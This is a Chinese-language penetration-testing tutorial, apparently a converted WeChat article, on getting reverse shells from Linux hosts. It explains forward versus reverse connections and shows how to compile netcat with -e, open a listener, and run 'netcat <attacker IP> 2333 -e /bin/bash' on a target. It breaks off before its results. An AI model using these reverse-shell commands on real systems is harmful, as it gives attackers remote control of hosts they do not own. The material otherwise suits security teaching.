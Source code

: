 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5rcULU3stZkmqmXFX_pwzA) ![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NKsXH5ZC1xRScbuep7KFYu8FtiavjkEFP6nVQX5TibOD7Lq05DiajRCeNw/640?wx_fmt=jpeg)

前言
--

在渗透测试实战中，我们经常会遇到 Linux 系统环境，而让 Linux 主机反弹个 shell 是再常见不过的事情了。

反弹 shell，就是攻击机监听在某个 TCP/UDP 端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机。

### 正向连接

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标 ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web 服务、ssh、telnet 等等都是正向连接。

### 反向连接

那么为什么要用反弹 shell 呢？

反弹 shell 通常适用于如下几种情况：

• 目标机因防火墙受限，目标机器只能发送请求，不能接收请求。• 目标机端口被占用。• 目标机位于局域网，或 IP 会动态变化，攻击机无法直接连接。• 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。•......

对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

那么反向连接就很好理解了，就是攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，即为反向连接。

反弹 shell 的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有 netcat，那我们就可以利用 netcat 反弹 shell，如果具有 python 环境，那我们可以利用 python 反弹 shell。如果具有 php 环境，那我们可以利用 php 反弹 shell。

利用 netcat 反弹 shell
------------------

Netcat 是一款简单的 Unix 工具，使用 UDP 和 TCP 协议。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。使用它你可以轻易的建立任何连接。

目前，默认的各个 linux 发行版本已经自带了 netcat 工具包，但是可能由于处于安全考虑原生版本的 netcat 带有可以直接发布与反弹本地 shell 的功能参数 -e 都被阉割了，所以我们需要自己手动下载二进制安装包，安装的如下：

```
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gztar -xvzf netcat-0.7.1.tar.gz./configuremake && make installmake clean
```

安装完原生版本的 netcat 工具后，便有了 netcat -e 参数，我们就可以将本地 bash 反弹到攻击机上了。

**攻击机开启本地监听：**

```
netcat -lvvp 2333
```

**目标机主动连接攻击机：**

```
netcat 47.xxx.xxx.72 2333 -e /bin/bash# nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
```

执行效果如下：
